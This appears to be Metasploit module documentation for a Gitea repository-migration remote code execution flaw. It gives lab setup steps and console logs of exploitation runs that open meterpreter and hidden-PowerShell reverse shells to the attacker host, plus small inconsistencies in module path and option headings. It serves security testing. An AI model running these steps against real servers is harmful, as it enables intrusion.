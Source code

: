 ## Vulnerable Application

[Gitea](https://gitea.io/) is a painless self-hosted Git service community
managed lightweight code hosting solution written in Go.

This module has been tested successfully on Gitea versions:
* 1.16.6 with Git 2.30.3 (Docker)
* 1.16.6 with Git 2.30.2 (Windows 10)

### Description

This module exploits Git fetch command in Gitea repository migration process that leads to a remote command execution on the system.
This vulnerability affect Gitea before 1.16.7 version.

The migration process require valid Git repository address so the module will
use the Gitea target itself by creating a temporary repository. This scenario
won't work with [Gitea default configuration](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini)
because `ALLOW_LOCALNETWORKS` is disabled. However, it will be ignored when
[ALLOWED_DOMAINS](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini#L2289)
is set, but it must be set to all domain with `*` for this scenario to work.

There is an update in the Git-remote command line starting from version 2.34.0
which refuses to update the branch pull request URL to the current path.

```
\testrepo.git>git version
git version 2.34.0.windows.1
\testrepo.git>git remote add -f master ./
Updating master
fatal: bad object refs/pull/0/head
error: ./ did not send all necessary objects

error: Could not fetch master
```
This causes the exploit to fail because Git-fetch will not executed if the
Git-remote fail. Details of these limitation are explained
[here](https://tttang.com/archive/1607/)

### Source and Installers

* [Source Code Repository](https://github.com/go-gitea/gitea/)
* [Installers](https://dl.gitea.io/gitea/1.16.6)
* [Docker](https://docs.gitea.io/en-us/install-with-docker/)

### Docker installation
1. create `docker-compose.yml` file
```
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.16.6
    container_name: gitea
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "3000:3000"
      - "222:22"
```
2. run `docker-compose up`
3. append `ALLOW_LOCALNETWORKS` in the configuration file.
```
:~$ cat << EOF >> gitea/gitea/conf/app.ini
> [migrations]
> ALLOW_LOCALNETWORKS = true
> EOF
```
4. Navigate to the localhost port 3000 and finish the installation. Note that
   the first registered user will automatically become administrator so make
   sure to set the administrator username and password upon installation.

## Verification Steps

1. Navigate to `/user/sign_up` and register normal user
2. Do: `use unix/webapp/gitea_git_fetch_rce`
3. Do: `set RHOSTS [ips]`
4. Do: `set LHOST [lhost]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The Gitea valid username to authenticate

### USERNAME
The Gitea valid password to authenticate

### HTTPDELAY
Number of seconds the web server will wait to deliver payload (default: 12)

## Scenarios
### Successful exploitation of Gitea 1.16.6 on Docker

```
msf > use exploit/multi/http/gitea_git_fetch_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/gitea_git_fetch_rce) > set rhosts 172.17.0.2
rhosts => 172.17.0.2
msf exploit(multi/http/gitea_git_fetch_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf exploit(multi/http/gitea_git_fetch_rce) > set username msf
username => msf
msf exploit(multi/http/gitea_git_fetch_rce) > set password qwerty
password => qwerty
msf exploit(multi/http/gitea_git_fetch_rce) > set verbose true
verbose => true
msf exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/d8s1ZLsl
[*] Adding hardcoded uri /api/v1/repos/msf/d8s1ZLsl/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/d8s1ZLsl/topics
[*] Creating repository "u8W2Lu24p"
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgAB..."]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAA...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Migrating repository
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:60744) at 2022-10-03 18:40:15 +0700
[*] Server stopped.

meterpreter > getuid
Server username: git
```

### Successful exploitation of Gitea 1.16.6 on Windows 10

```
msf > use exploit/multi/http/gitea_git_fetch_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/gitea_git_fetch_rce) > set target 2
target => 2
msf exploit(multi/http/gitea_git_fetch_rce) > set rhosts 192.168.0.21
rhosts => 192.168.0.21
msf exploit(multi/http/gitea_git_fetch_rce) > set lhost 192.168.0.104
lhost => 192.168.0.104
msf exploit(multi/http/gitea_git_fetch_rce) > set username yo
username => yo
msf exploit(multi/http/gitea_git_fetch_rce) > set password password
password => password
msf exploit(multi/http/gitea_git_fetch_rce) > set verbose true
verbose => true
msf exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 192.168.0.104:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.104:8080/
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/yo/Gu5em72aTm5
[*] Adding hardcoded uri /api/v1/repos/yo/Gu5em72aTm5/pulls
[*] Adding hardcoded uri /api/v1/repos/yo/Gu5em72aTm5/topics
[*] Creating repository "ExcLF0xBxG"
[+] Repository created
[*] Executing command: powershell.exe -nop -w hidden -noni -ep bypass "&([...
[*] Migrating repository
[*] Powershell session session 1 opened (192.168.0.104:4444 -> 192.168.0.21:49499) at 2022-10-03 19:03:38 +0700
[*] Migrating repository
[*] Powershell session session 1 opened (192.168.0.104:4444 -> 192.168.0.21:49499) at 2022-10-03 19:03:38 +0700
[*] Server stopped.

PS C:\Users\msf\Downloads\data\gitea-repositories\yo\gu5em72atm5.git> whoami
msf
```

### Failed exploitation due to migration settings

```
msf > use exploit/multi/http/gitea_git_fetch_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/gitea_git_fetch_rce) > set rhosts 172.17.0.2
rhosts => 172.17.0.2
msf exploit(multi/http/gitea_git_fetch_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf exploit(multi/http/gitea_git_fetch_rce) > set username msf
username => msf
msf exploit(multi/http/gitea_git_fetch_rce) > set password qwerty
password => qwerty
msf exploit(multi/http/gitea_git_fetch_rce) > set verbose true
verbose => true
msf exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/9JDwz2xTngq7w
[*] Adding hardcoded uri /api/v1/repos/msf/9JDwz2xTngq7w/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/9JDwz2xTngq7w/topics
[*] Creating repository "P7EpcvA"
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAA..."]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAAB...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Migrating repository
[*] Server stopped.
[-] Exploit aborted due to failure: unexpected-reply: Unable to migrate repo:
You can not import from disallowed hosts, please ask the admin to check
ALLOWED_DOMAINS/ALLOW_LOCALNETWORKS/BLOCKED_DOMAINS settings.
[*] Exploit completed, but no session was created.
```
